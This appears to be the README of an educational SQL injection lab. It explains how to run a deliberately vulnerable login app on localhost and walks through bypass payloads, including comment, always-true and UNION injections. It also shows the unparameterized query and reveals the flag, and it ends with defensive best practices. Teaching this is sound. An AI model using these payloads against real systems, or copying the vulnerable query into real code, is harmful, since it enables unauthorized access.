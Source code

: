 SQL Injection Challenge: Authentication Bypass
Challenge Overview

This challenge demonstrates a SQL injection vulnerability in the login form of SecureCorp's employee portal.
Your goal is to bypass authentication and retrieve the admin password (flag) from the database.

This guide provides step-by-step instructions for setting up, running, and exploiting the challenge using either Docker (recommended) or a manual Python setup.

Challenge Details

Category: Web Security

Difficulty: Easy

Vulnerability Type: SQL Injection – Authentication Bypass

Flag Format: RAZZ{sql1_bYP4sS_MAst3r}

Prerequisites

Before starting, ensure you have one of the following setup options available:

Option A: Docker (Recommended)

Docker installed

Basic familiarity with Docker commands

For Linux: sudo privileges or user added to the Docker group

Option B: Manual Python Setup

Python 3.11+

pip package manager

Basic familiarity with Python virtual environments

Step 1: Download/Clone the Challenge
1.1 Open Terminal/Command Prompt

Windows: Command Prompt, PowerShell, or Windows Terminal

macOS: Terminal or iTerm2

Linux: Terminal, GNOME Terminal, or Konsole

1.2 Navigate to Desired Directory
cd path/to/your/directory

1.3 Clone the Repository
git clone https://github.com/KerberoSec/Razz_Security_Internship_Assignment.git

1.4 Navigate to Project Directory
cd Razz_Security_Internship_Assignment

1.5 Verify Files
ls -la


Expected structure:

├── app.py
├── Dockerfile
├── README.md
├── requirements.txt
└── templates
    └── index.html

2 directories, 5 files

Step 2: Docker Setup (Recommended)
2.1 Build the Docker Image

With sudo (if required):

sudo docker build -t sqli-challenge .


Without sudo:

docker build -t sqli-challenge .

2.2 Run the Docker Container
sudo docker run -d -p 5000:5000 --name sqli-challenge sqli-challenge

2.3 Verify Container is Running
sudo docker ps


Expected output:

abc123def456   sqli-challenge   "python app.py"  5 seconds ago   Up 4 seconds   0.0.0.0:5000->5000/tcp   sqli-challenge

2.4 Access Application

Open in browser:

http://localhost:5000

Step 3: Manual Python Setup (Alternative)
3.1 Create Virtual Environment
python -m venv venv


Activate environment:

macOS/Linux:

source venv/bin/activate


Windows:

venv\Scripts\activate

3.2 Install Dependencies
pip install -r requirements.txt

3.3 Run Application
python app.py

3.4 Access Application
http://localhost:5000

Step 4: Exploitation Guide
4.1 Vulnerable Code
query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"

4.2 Identifying Injection

Navigate to:

http://localhost:5000

4.3 Bypass Authentication

Payload:

Username: admin' --

Password: anything

Resulting query:

SELECT * FROM users WHERE username = 'admin' --' AND password = 'anything'

4.4 Retrieve Flag

After logging in as admin, the flag will be displayed:

RAZZ{sql1_bYP4sS_MAst3r}

4.5 Alternative Payloads

Method 1: Always True

Username: admin' OR '1'='1
Password: anything


Method 2: Union Injection

Username: admin' UNION SELECT 1,password,3 FROM users WHERE username='admin' --
Password: anything

Step 5: Database Schema & Data
5.1 Schema
id INTEGER PRIMARY KEY AUTOINCREMENT,
username TEXT UNIQUE NOT NULL,
password TEXT NOT NULL,
is_admin INTEGER DEFAULT 0

5.2 Sample Data
1   admin       RAZZ{sql1_bYP4sS_MAst3r}   1
2   john_doe    password123                0
3   jane_smith  securepass                 0

Step 6: Management Commands
6.1 Docker

List containers

sudo docker ps


Stop container

sudo docker stop sqli-challenge


Start container

sudo docker start sqli-challenge


Remove container

sudo docker rm sqli-challenge


Remove image

sudo docker rmi sqli-challenge


View logs

sudo docker logs sqli-challenge

6.2 Python Virtual Environment

Deactivate

deactivate


Reactivate (Windows)

venv\Scripts\activate


Reinstall dependencies

pip install --force-reinstall -r requirements.txt

Step 7: Troubleshooting

Port already in use: Use another port or stop conflicting service

Docker permission denied: Add user to Docker group or use sudo

Module not found: Ensure venv is activated and run pip install -r requirements.txt

Database errors: Check file permissions for SQLite DB file

Step 8: Learning Objectives

Understand SQL injection in login forms

Exploit authentication bypass

Learn input validation & parameterized queries

Recognize security risks of unsanitized SQL queries

Step 9: Security Best Practices

Always use parameterized queries

Validate & sanitize user inputs

Implement proper error handling

Use least-privilege DB accounts

Regularly update dependencies

Deploy a Web Application Firewall (WAF)

Step 10: Additional Resources

OWASP SQL Injection Prevention Cheat Sheet

PortSwigger SQL Injection Tutorial

Flask Security Guidelines

